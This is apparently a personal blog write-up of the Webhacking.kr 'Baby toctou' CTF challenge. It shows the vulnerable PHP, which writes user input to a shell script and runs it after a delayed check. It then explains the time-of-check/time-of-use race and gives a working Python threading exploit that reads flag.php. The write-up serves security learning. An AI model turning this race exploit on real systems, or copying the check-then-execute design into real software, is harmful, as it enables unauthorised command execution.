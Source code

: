 ```yaml
---
layout: post
title: "[Webhacking.kr] Baby toctou 🍼 writeup"
categories: hacking
---
```


## Introduction

I decided to give myself a try on this challenge which was solved my only 42 people at the time. I thought it would be a challenging (and interesting) one. In the end this one was not that hard, but surely an interesting one.

## First look

```php
<?php
  // system($_GET['q']);
  if(!preg_match('/^[a-f0-9]+$/',$_COOKIE['baby_toctou'])){ $newCookie = uniqid().rand(1,999999999); setcookie("baby_toctou",$newCookie); $_COOKIE['baby_toctou'] = $newCookie; }
  $cmd = $_GET['q'];
  $myfile = fopen("user/{$_COOKIE['baby_toctou']}.sh", "w") or die("Unable to open file!");
  fwrite($myfile, $cmd);
  fclose($myfile);
  if(($cmd === "ls") || ($cmd === "cat api.php") || ($cmd === "cat index.php")){ // valid check
    sleep(1); // my server is small and weak
    system("sh ./user/{$_COOKIE['baby_toctou']}.sh");
  }
  else{
    echo <<<HELP
only "ls", "cat api.php", "cat index.php" allowed
HELP;
  }
?>
```

This `api.php` simply writes the command you want to execute into a file named by the `baby_toctou` cookie. After writing the file, it checks the command before executing the file.
Nothing's wrong with the `if` check, so what could go wrong?

## Race condition

Now what if we change the content of the file after the `if` condition successes? We have a generously 1 second for that.

But how can we? Isn't the program running top-down?

What if we have 2 people P1 and P2, one executes, and one edits the content?
Here's the idea:

| Step | P1                              | P2                                |
| ---- | ------------------------------- | --------------------------------- |
| 1    | Writes `ls` to the file         | -                                 |
| 2    | Passes the `if` check           | -                                 |
| 3    | Waits 1 second before executing | Writes `cat flag.php` to the file |
| 4    | Executes the file               | Fails the `if` check              |

Easy!

## Exploitation

There's not much to talk about this, but I'll post my code here as a reference.

```python
import requests, threading, time

def send(cmd):
    cookies = {
        'PHPSESSID': 'ofq76t3822i5ee1plskj2bafmt',
        'baby_toctou': 'abc91', # just a random string, anything will work
    }

    headers = {
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'keep-alive',
        # 'Cookie': 'PHPSESSID=ofq76t3822i5ee1plskj2bafmt; baby_toctou=abc91',
        'DNT': '1',
        'Referer': 'http://webhacking.kr:10019/',
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36',
    }

    params = {
        'q': cmd,
    }

    response = requests.get('http://webhacking.kr:10019/api.php', params=params, cookies=cookies, headers=headers, verify=False)
    print(response.text)

p1 = threading.Thread(target=send, args=('ls',))
p2 = threading.Thread(target=send, args=('cat flag.php',))


print('[info] getting in ...')

p1.start()
time.sleep(0.25)
p2.start()
```

## Conclusion

This challenge helped me develop my sense of a non-linear attack. Always think of a multi-user situation!
